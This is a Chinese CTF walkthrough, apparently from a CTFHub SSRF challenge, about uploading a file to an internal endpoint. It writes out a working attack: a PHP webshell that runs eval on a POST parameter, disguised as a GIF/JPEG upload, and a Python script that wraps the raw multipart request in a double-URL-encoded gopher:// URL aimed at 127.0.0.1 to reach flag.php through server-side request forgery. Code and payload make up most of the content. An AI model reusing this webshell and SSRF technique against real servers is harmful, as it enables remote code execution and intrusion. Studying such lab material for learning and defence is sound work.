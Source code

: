 这里我们直接去访问这个文件看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/7f24b5c4857dc092c44ce0801e7c51b8.png" alt="" style="max-height:206px; box-sizing:content-box;" />


发现没有提交框 我们自己加一个

```cobol
<input type="submit" name="提交">
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e3ecceb7eb08914dfbb92a1d27d4b4b9.png" alt="" style="max-height:177px; box-sizing:content-box;" />


上传一个小马

抓包



<img src="https://i-blog.csdnimg.cn/blog_migrate/63d7b45fc74882965aac1fc215558838.png" alt="" style="max-height:541px; box-sizing:content-box;" />


修改这里为 127.0.0.1:80

```cobol
import urllib.parse
payload =\
"""POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17915680277862189741700162877
Content-Length: 407
Origin: http://challenge-19841609aa2cc7a4.sandbox.ctfhub.com:10800
Connection: close
Referer: http://challenge-19841609aa2cc7a4.sandbox.ctfhub.com:10800/?url=file:///var/www/html/flag.php
Upgrade-Insecure-Requests: 1

-----------------------------17915680277862189741700162877
Content-Disposition: form-data; name="file"; filename="1.jpg"
Content-Type: image/jpeg

GIF89a
<script language="php">
    @eval($_POST['cmd']);
</script>
-----------------------------17915680277862189741700162877
Content-Disposition: form-data; name="鎻愪氦"

鎻愪氦鏌ヨ
-----------------------------17915680277862189741700162877--
"""
#注意后面一定要有回车，回车结尾表示http请求结束。Content-Length是key=e01fdff5c126356cb64cf2436f8c7704的长度
tmp = urllib.parse.quote(payload)
new = tmp.replace('%0A','%0D%0A')
result = 'gopher://127.0.0.1:80/'+'_'+new
result = urllib.parse.quote(result)
print(result)       # 这里因为是GET请求所以要进行两次url编码
 
```
